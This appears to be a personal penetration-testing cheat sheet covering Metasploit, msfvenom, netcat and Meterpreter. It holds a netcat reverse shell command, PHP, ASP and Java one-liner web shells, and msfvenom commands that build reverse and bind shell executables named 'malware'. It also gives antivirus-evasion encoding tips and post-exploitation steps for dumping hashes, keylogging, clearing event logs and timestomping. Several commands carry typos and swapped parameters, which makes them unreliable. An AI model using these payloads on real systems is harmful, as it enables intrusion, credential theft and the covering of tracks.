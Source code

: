 SMB - 445
Kerberos - 88
RDP - 3389
LDAP - 389 636

Tools
Mimikatz - credential dumping
winPeas - local privesc
Bloodhound - collect AD data and find attack paths
PowerSploit - ps1 scripts


Exploit Databases
exploit-db.com
cve.mitre.org
securityfocus.com
Google Dork: "CVE-20XX-XXXX" site:github.com

Reverse Shell Generator
revshells.com

SearchSplot
       searchsploit <query>         
       searchspoit -m <exploit_id>
  
Fix Kali Issues
       github.com/Dewalt-arch/pimpmykali
  

Metasploit - exploitation framework. Has everything.
  msfconsole
  setg - set global variables
  unsetg
  search
  info
  use
  set RHOSTS <IP? - sets local variables
  unset
  sessions - lists active sessions
  session -i <session id> - connects to a session
  sessopn -u 1 - upgrade a session
  sessions -c cmd - execute comands in all sessions
  sessions -i 10-20 -c <session id> - execute commands in specific sessions
  
MetaSploit listener
  use multi/handler    : metasploit listener
  set LHOST
  run   -starts the listener
  
Python Listeners
  Python 2 simple web server
    python -m SimpleHTTPServer 8080
  Python 3 simple web server
    python -m http.server 1338
  
TCPdump
  tcpdump -t eth0 icmp  :listen for pings on specific interface
  tcpdump -i any icmp    :listen for pings on every interface
  
  
Listeners
  nc -lvnp <port>  : listens for connections on a port
        -l  start listener
        -v  run verbose
        -n  no DNS resolution
        -p  port
  nc <ip> <port> -e /bin/sh

Webshells
github.com/BlackArch/webshells
<?php echo system($_GET['cmd']);?>   : PHP one liner web shell  
<% eval request("cmd")%>  : ASP one liner web shell
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>  : java web shell
                  
                  
       
msfvenom
       msfvenom -l payloads   : lists available paylaods
       msfvenom -l encoders   : lists available encodings
       msfvenom -p (payload) -e (encoder) -f (filer_format) LHOST=<LISTERNER_IP> LPORT=<LISTENER_PORT>
       
       payload obsufucation is important to bypass anti virus
       msfvenom -e x86/shikata_ga_nai...
       virustotal.com to check malware hash
       
       Basic Reverse Shells
       Windows
       msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/shell_reverse_tcp  LHOST=<IP> LPORT=<IP> -f elf -o malware.elf
       
       Basic Bind Shells
       Windows
       msfvenom -p windows/x64/shell/bind_tcp LHOST=<IP> RPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/bind_tcp  LHOST=<IP> RPORT=<IP> -f elf -o malware.elf
       
       msfvenom -p php/reverse_php LHOST=<IP> LPORT=1337 -o malware.php
       msfvenom -p windws/x64/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f msi -o malware.msi
      
                  
Meterpreter
       post exploitation tool for MetaSploit
       cat
       edit
       cd/ls
       pwd
       upload
       download
       
       Windows specific
              getsystem
              hashdump
                  
       
Meterpreter Terrorism
      clearev  : clear event logs
      timestomp  : time stamp tampering
      migrate 1337  : move to a nw process
      keyscan_start  : start keylogger
      keyscan_stop
      keyscan_dump  : dump logged keys
      screenshot
                  
                  
                  
                  
